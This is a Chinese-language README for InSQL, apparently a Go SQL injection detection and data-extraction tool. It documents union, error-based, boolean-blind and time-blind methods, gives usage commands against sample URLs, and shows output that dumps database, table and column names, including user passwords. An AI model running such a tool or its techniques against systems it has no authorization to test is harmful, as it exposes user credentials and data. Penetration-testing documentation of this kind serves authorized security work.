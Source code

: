 # InSQL - SQL注入检测工具

一个用Go语言编写的SQL注入检测工具，支持多种注入方式的检测和数据提取。

## 功能特性

- **联合注入 (Union-based)**: 通过UNION查询获取数据库信息
- **错误注入 (Error-based)**: 利用数据库错误信息提取数据
- **布尔盲注 (Boolean-based)**: 通过响应差异判断注入点
- **时间盲注 (Time-based)**: 通过响应时间判断注入点
- **自动检测**: 自动尝试多种注入方式

## 安装

```bash
git clone https://github.com/jingyi/insql.git
cd insql
go build -o insql.exe
```

## 使用方法

### 基本用法

```bash
# 使用联合注入检测
./insql.exe -url="http://example.com/page.php?id=1" -method=union

# 使用错误注入检测
./insql.exe -url="http://example.com/page.php?id=1" -method=error

# 使用布尔盲注检测
./insql.exe -url="http://example.com/page.php?id=1" -method=boolean

# 使用时间盲注检测
./insql.exe -url="http://example.com/page.php?id=1" -method=time

# 自动检测（推荐）
./insql.exe -url="http://example.com/page.php?id=1" -method=auto
```

### 命令行参数

- `-url`: 目标URL（必需）
- `-method`: 注入方法，可选值：union, error, boolean, time, auto（默认：union）
- `-timeout`: 请求超时时间，单位秒（默认：10）
- `-verbose`: 详细输出模式（默认：false）

### 示例

```bash
# 检测目标网站
./insql.exe -url="http://testphp.vulnweb.com/artists.php?artist=1" -method=auto

# 使用详细模式
./insql.exe -url="http://example.com/page.php?id=1" -method=union -verbose=true
```

## 支持的注入类型

### 1. 联合注入 (Union-based)
- 自动检测列数
- 提取数据库名、表名、列名
- 适用于有回显的注入点

### 2. 错误注入 (Error-based)
- 使用updatexml函数触发错误
- 从错误信息中提取数据
- 适用于显示错误信息的应用

### 3. 布尔盲注 (Boolean-based)
- 通过真/假条件响应差异判断
- 逐字符提取数据
- 适用于无回显但有响应差异的注入点

### 4. 时间盲注 (Time-based)
- 通过响应时间判断注入点
- 使用sleep函数控制响应时间
- 适用于完全盲注的情况

## 输出示例

```
目标URL: http://example.com/page.php?id=1
检测方法: union
超时时间: 10秒
开始检测...
--------------------------------------------------
Starting Union-based SQL injection...
Column count: 3
Database name: testdb
Table names: [users, products, orders]
Column names for table users: [id, username, password, email]
--------------------------------------------------
检测完成!
```

## 注意事项

1. **仅用于授权测试**: 请确保您有权限测试目标系统
2. **遵守法律法规**: 不要用于非法用途
3. **测试环境**: 建议在测试环境中使用
4. **网络延迟**: 时间盲注可能受网络延迟影响


